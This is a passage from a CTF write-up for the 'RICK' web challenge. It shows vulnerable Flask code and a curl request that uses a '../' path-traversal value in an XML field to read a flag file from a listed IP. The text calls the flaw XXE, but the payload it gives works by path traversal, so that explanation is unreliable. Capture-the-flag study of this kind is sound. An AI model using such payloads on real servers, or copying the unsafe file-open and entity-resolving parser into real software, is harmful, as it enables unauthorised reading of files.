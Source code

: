 ```yaml
---
title: CSEC INDIA CTF 2025 - 1st Place Writeup by l4tmur
date: 2025-05-31
categories: [CTF , Writeup]
tags: [CSECINDIA, CTF, Web, Crypto, Reversing, Forensics, Pwn, OSINT]
description: My detailed write-up for the CSEC INDIA CTF 2025, where I secured first place. This post covers solutions for various challenges across different categories.
author: l4tmur
--- 
```


## RICK - WEB

I identified an **XXE vulnerability** in the `/data` endpoint. The `main.py` code uses `lxml`'s `ET.XMLParser(resolve_entities=True)`, which is prone to XXE. By providing an XML payload that includes an external entity declaration, I was able to read local files.

- auth.py

```python
@auth.route('/data', methods=['POST'])
def process_data():
    # Decode the incoming XML data
    xml_data = request.data.decode('utf-8')
    parser = ET.XMLParser(resolve_entities=True)
    root = ET.fromstring(xml_data, parser=parser)
    try:
        # Parse XML data with lxml, allowing external entity resolution
        # Enable external entity resolution
        # parser = ET.XMLParser(resolve_entities=True)
        #  Parse the XML with XXE vulnerability enabled
        # root = ET.fromstring(xml_data, parser=parser)

        # Extract the user ID from the XML
        user_id = root.find('ID').text
        print(user_id)
        details = open(f'static/details/{user_id.strip()}').read()
    except ET.XMLSyntaxError:
        # If parsing fails, return the raw XML (this simulates error handling)
        details = __import__('os').getcwd()
    except:
        details = f"Current working directory: {__import__('os').getcwd()}"

    response = make_response(details)
    return response
                        
```


My successful payload used the following `curl` command to retrieve the contents of `/app/.flag`:


```bash
curl -X POST http://4.240.104.200:5004/data \
-H "Content-Type: application/xml" \
--data '<?xml version="1.0"?><data><ID>../../../../app/.flag</ID></data>'
```

---